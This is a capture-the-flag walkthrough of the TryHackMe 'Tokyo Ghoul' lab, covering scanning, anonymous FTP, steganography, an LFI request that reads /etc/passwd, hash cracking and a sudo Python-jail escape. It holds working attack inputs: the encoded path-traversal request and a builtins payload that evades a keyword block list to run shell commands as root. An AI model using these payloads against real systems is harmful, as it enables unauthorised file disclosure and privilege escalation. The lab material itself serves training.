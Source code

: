 # Tokyo Ghoul

[Play](https://tryhackme.com/room/tokyoghoul666)

## 1. Scanning & Enumeration
### 1.1 Port Scanning
```
❯ nmap -sC -sV -A 10.10.202.61
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-17 01:48 EDT
Nmap scan report for 10.10.202.61
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.150.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.17 seconds
```
### 1.2 FTP
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
226 Directory send OK.
ftp> cd need_Help?
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           480 Jan 23 22:26 Aogiri_tree.txt
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 22:26 Talk_with_me
226 Directory send OK.
ftp> get Aogiri_tree.txt
...
ftp> cd Talk_with_me
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 ftp      ftp         17488 Jan 23 22:26 need_to_talk
-rw-r--r--    1 ftp      ftp         46674 Jan 23 22:26 rize_and_kaneki.jpg
226 Directory send OK.
ftp> get need_to_talk
...
ftp> get rize_and_kaneki.jpg
...
```

### 1.3 File Exploration
```
❯ file need_to_talk
need_to_talk: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=adba55165982c79dd348a1b03c32d55e15e95cf6, for GNU/Linux 3.2.0, not stripped
```

```
❯ ./need_to_talk
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> no
Hmm. I don't think this is what I was looking for.
Take a look inside of me. rabin2 -z
```

```
❯ strings need_to_talk
...
u/UH
You_founH
d_1t
[]A\A]A^A_
{username}
...
```

```
❯ ./need_to_talk
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> {username}
Good job. I believe this is what you came for:
{stego pass}
```

```
❯ steghide --extract --stegofile rize_and_kaneki.jpg
Enter passphrase: 
wrote extracted data to "yougotme.txt".
```

```
❯ cat yougotme.txt
haha you are so smart kaneki but can you talk my code 

..... .-
....- ....-
....- -....
--... ----.
{truncated}
...

if you can talk it allright you got my secret directory 
```

Using: [CyberChef](http://icyberchef.com/)

![](https://i.imgur.com/zVhiiBo.png)
We have the secret directory!

### 1.4 Web Exploration
![](https://i.imgur.com/qPK7Yzn.png)
It tells us to scan, so let's do that.

![](https://i.imgur.com/TOFQmZX.png)
We reach at an intersting page, which looks vulnerable to LFI.

`index.php?view=../../../../etc/passwd`

![](https://i.imgur.com/d5MDFgW.png)
Intersting! But what about a specially crafted request? Trying the below: `index.php?view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`

We get the good stuff!
`{username}:{some tasty info mmmmm} `

### 1.5 Hash Cracking
```
❯ john --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
{password mmmmm}      ({username})
1g 0:00:00:01 DONE (2021-03-17 02:43) 0.7812g/s 1200p/s 1200c/s 1200C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## 2. Foothold

Using this to ssh, we are in! 

Let's do some exploration.
```
{username}@vagrant:~$ sudo -l
[sudo] password for {username}: 
Matching Defaults entries for {username} on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User {username} may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/{username}/jail.py
{username}@vagrant:~$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Jan 23 22:33 .
drwxr-xr-x 4 root root 4096 Jan 23 22:27 ..
-rw-r--r-- 1 root root  588 Jan 23 22:27 jail.py
-rw-r--r-- 1 root root   33 Jan 23 22:27 user.txt
```

```
{username}@vagrant:~$ cat jail.py 
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

```
{username}@vagrant:~$ python3 jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> hi
Traceback (most recent call last):
  File "jail.py", line 16, in <module>
    main()
  File "jail.py", line 13, in main
    exec(text)
  File "<string>", line 1, in <module>
NameError: name 'hi' is not defined
```

Uh okay, so cheap trick, let's see if sneaking in works.
```
>>> "cat root/root.txt"
No Kaneki you are so dead
```

Apparently not. What we need to do is import os and spawn a shell, or, just cat the `root/root.txt` file. But, for that, we need to somehow make python execute shell code. How? Python has a built in function `exec()` that does just that. So, all we need to do is **python3 jail-break**. [Look up here for more information](https://anee.me/escaping-python-jails-849c65cf306e). 

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```

And we are done!
